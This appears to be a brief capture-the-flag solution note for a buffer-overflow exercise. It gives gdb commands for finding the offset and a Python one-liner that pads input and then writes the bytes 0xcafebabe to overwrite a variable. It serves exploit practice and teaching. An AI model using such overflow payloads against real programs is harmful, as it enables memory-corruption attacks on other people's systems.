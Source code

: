 gdb commands for solution:
* break gets
* disas func
* disas main
* x $register+offset

To print bytes as input:
python -c "print '\x01'*offset+'\xbe\xba\xfe\xca'"
